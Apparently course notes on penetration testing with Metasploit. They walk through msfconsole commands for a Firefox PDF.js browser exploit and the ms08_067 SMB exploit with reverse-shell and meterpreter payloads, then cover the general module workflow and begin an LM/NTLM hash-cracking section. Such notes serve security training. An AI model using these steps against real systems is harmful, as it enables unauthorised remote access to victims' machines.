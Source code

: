 `use exploit/multi/browser/firefox_pdfjs_privilege_escalation`: to use a Metasploit module for exploiting the Mozilla PDF file viewer.
`show options`: to show the configuration options:
- SRVHOST: the local host (our IP address, client-side) to listen on;
- SRVPORT: the local port to listen on;
- PAYLOAD: the payload to use (`firefox/shell_reverse_tcp`).
With `exploit`, Metasploit will start a web server, which hosts a webpage containing the exploit itself.
Once clicked on the link in the page, we will see in the msfconsole a command shell created.

(107/122) *Remote exploitation* targets both applications and software that expose services, reachable from other machines in the network.

`use exploit/windows/smb/ms08_067_netapi`: to use a Metasploit module for exploiting a (very old) vulnerability in the Server service.
`show options`: to show the configuration options:
- RHOST: the target IP address;
- RPORT: the SMB service port;
- PAYLOAD: the payload to use (`windows/meterpreter/reverse_tcp`).
With `exploit`, Metasploit will start a new meterpreter session.

### Metasploit Basic Usage - Video

`msfupdate`: to update the Metasploit framework.
`service postgresql start`: needed by msfconsole, `msfconsole`: to run the interface to use Metasploit.
`search type:<ModuleType> platform:<ModulePlatform> cve:<ModuleCVE>`: to search among the available modules (e.g. `search type:exploit platform:windows`).
`show <ModuleCategory>`: to show all the modules of a specific category (e.g. `show payloads`).
Every exploit supports different payloads.
Meterpreter payload is the most common and powerful payload we can use in Metasploit.
Differences between reverse shell and bind shell:
- Reverse shell: here the victim starts the connection to the attacker;
- Bind shell: here the attacker starts to listen for incoming connection, where then the victim will connect.

`ls -l /usr/share/metasploit-framework/modules`: to see all the available modules;
`info <ModuleFilepath>`: to retrieve information about a specific module;
`use <ModuleFilepath>`: to use a specific module, where `<ModuleFilepath>=<ModuleType>/<ModulePlatform>/<ModuleService>/<ModuleFilename>`);
`show options`: to see the required options we need to configure;
`show payloads`: to see all the available payloads for this specific module;
`show targets`: to see all the vulnerable target systems;
`set <Option> <Value>`: to set the required options; `unset <Option>`: to unset an option;
`set PAYLOAD <PayloadFilepath>`: to set the payload we want to use (e.g. `set PAYLOAD windows/meterpreter/reverse_tcp`);
`show options`: to see the new available options;
`exploit`: to launch the attack.

### LM NTLM Cracking - Video

`cat <HashesFilename>`:
```
<Username>::<DomainName>:<LMHash>:<NTLMHash>:<ChallengeUsed>
```
